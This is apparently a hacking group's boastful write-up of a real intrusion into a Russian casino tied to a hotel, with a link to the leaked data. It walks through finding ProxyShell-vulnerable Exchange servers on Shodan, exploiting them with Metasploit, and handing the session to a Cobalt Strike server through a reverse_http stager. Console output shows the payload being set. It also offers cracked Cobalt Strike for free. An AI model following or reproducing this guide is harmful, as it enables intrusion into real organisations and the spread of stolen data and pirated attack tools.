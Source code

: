 On march 30th 2022, we had published a leak on a large Russian casino that is tied to the Russian hotel "Shambala" you can find the leak here: LINK TO LEAK: https://anonfiles.com/38r2e8S5x1/shambala_Poker_JokerClub_zip

Today we come with a writeup on how we performed this hack from the start to finish!

There is a huge belief among many people that say "Casinos are too secure", "Casinos are more secure then a bank", etc etc even when it comes to physical security but after reading this I'm sure you will come to a shock as well on how missing just one security patch can lead to us hacking a whole casino!

Initially we were looking for different targets vulnerable to Proxyshell through shodan, specifically in Russia after finding a few targets we manually confirmed the vulnerability (the reasoning for this is due to shodan scans can lead to false positives or even sometimes is outdated completely) and then did more research on the target to confirm what we are attacking! The follow NSE script can be used to confirm and scan [proxyshell](https://github.com/GossiTheDog/scanning/blob/main/http-vuln-exchange-proxyshell.nse)

To our shocking surprise we found a hotel that has a large income coming in and out and after further research we found the hotel was in some form tied to the Russian government all excited we booted up our favorite C2 framework COBALT STRIKE!! (you can find a copy on our telegram channel and if requests we currently give out the crack for free!) knowing the proxyshell vulnerability is there we also started Metasploit and loaded the proxyshell module, we had no reason to use our personal written exploit as the proxyshell module on metasploit was stable enough and did not have any concerning issues.

## Initial Foothold

### BUT GHOSTSEC HOW CAN WE TURN OUR METASPLOIT SHELL TO COBALT STRIKE?!?!?

This should be the least of your worries at this point, it is fairly easy to do so and here comes our STEP BY STEP guide on getting your victim from metasploit to your C2 framework (this applies to other C2s not just cobalt) 

STEP 1. Set PAYLOAD to `windows/x64/meterpreter/reverse_http` for an HTTP Beacon. Set PAYLOAD to `windows/x64/meterpreter/reverse_https` for an HTTPS Beacon. You’re not really delivering Meterpreter here. You’re telling the Metasploit Framework to generate an HTTP (or HTTPS) stager to download a payload from the specified LHOST and LPORT.

STEP 2. set the `LHOST` and `LPORT` to your cobalt strike listener Cobalt Strike knows what to do when it receives a request from a metasploit framework stager.

STEP 3. Set `DisablePayloadHandler` to True. Set `PrependMigrate` to True.

STEP 4. PROFIT!!!

```
msf6 > search -u exchange_proxyshell_rce  
[*] Using configured payload windows/x64/meterpreter/reverse_tcp
  
Matching Modules
================

  #  Name                                          Disclosure Date  Rank       Check  Description
  -  ----                                          ---------------  ----       -----  -----------
  0  exploit/windows/http/exchange_proxyshell_rce  2021-04-06       excellent  Yes    Microsoft Exchange ProxyShell RCE


Interact with a module by name or index. For example info 0, use 0 or use exploit/windows/http/exchange_proxyshell_rce

[*] Using exploit/windows/http/exchange_proxyshell_rce
msf6 exploit(windows/http/exchange_proxyshell_rce) > set payload windows/x64/meterpreter/reverse_http
payload => windows/x64/meterpreter/reverse_http
```
